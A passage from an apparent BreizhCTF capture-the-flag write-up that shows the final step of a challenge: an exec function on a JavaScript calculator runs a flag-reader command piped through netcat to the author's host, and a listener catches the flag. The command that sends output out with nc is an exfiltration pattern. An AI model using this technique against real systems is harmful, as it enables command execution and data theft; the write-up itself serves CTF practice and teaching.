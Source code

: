 Once the output of the python generator executed on the JS calculator, we had the following vars :

```js
> F
[Function: exec]
> E
/home/guest/flag_reader | nc myhostname 443
```

Run the exec function F with the parameter E and get the flag :
```js
> F(E)
```

```terminal
root@myhostname# nc -lp 443

breizhctf_flag{FORGOTTEN_FLAG}

```
